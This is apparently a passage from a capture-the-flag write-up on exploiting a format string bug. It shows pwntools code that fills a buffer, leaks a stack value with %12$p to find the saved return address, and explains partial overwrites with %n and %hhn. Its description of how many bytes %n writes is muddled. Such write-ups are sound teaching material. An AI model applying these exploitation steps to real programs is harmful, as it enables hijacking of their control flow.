 ```py
# this works only for the first overflow - subsequently, we need to add these 2 lines:
# p.sendline(b'1')
# p.sendline(b'a'*10)
def setup_buffer(p):
    for i in range(2):
        p.sendline(b'1')
        p.sendline(b'a'*17)
    p.sendline(b'1')
    p.sendline(b'a'*8)
```

---

Back to the FSB - how can I determine the offsets to leak values from? Well,
looking at the stack, "pink" should be at offset 8, and $rbp (the value we want
to leak) at offset 12. I confirmed this by testing out offset 12, and true
enough the expected value is there.

The below script will leak the value and calculate the address of our target:

```py
    setup_buffer(p)

    payload = b"%12$p"
    p.sendline(b'1')
    p.sendline(payload)

    p.sendline(b'1')
    p.sendline(b'pink')

    p.recvuntil(b'killed by ')
    rip = int(p.recvline().strip().decode(), 16) - 0x18
    print(f'rip @ {hex(rip)}')
```

To execute the write, we can use `%n`, which writes the number of characters
printed so far into the address at the specified offset. For example, if my
payload was as such:

`aaaa%8$n`

and the value at offset 8 is 0xdeadbeef, then 0x4 would be written to
0xdeadbeef. Note that 0xdeadbeef is the start of the write - %n will write to
the following 8 bytes as well, which sets everything to 0x00 except 0xdeadbeef,
which is set to 0x04.

But like I said earlier, I don't want to control the entire address - just the
last byte! Hence, I can use `%hhn` which only writes 1 byte instead of 8 bytes.

As I identified earlier, the offset of my input ("pink" in the earlier case) is
8. Controlling this value will allow me to control the address I'm writing to,
so I'll need to set it to the leaked address of $rip. 

I also need to trigger the write together with my write address. But since there
are null bytes at the start of $rip, I'll need to shift the address to the end,
changing my offset to 9 instead.
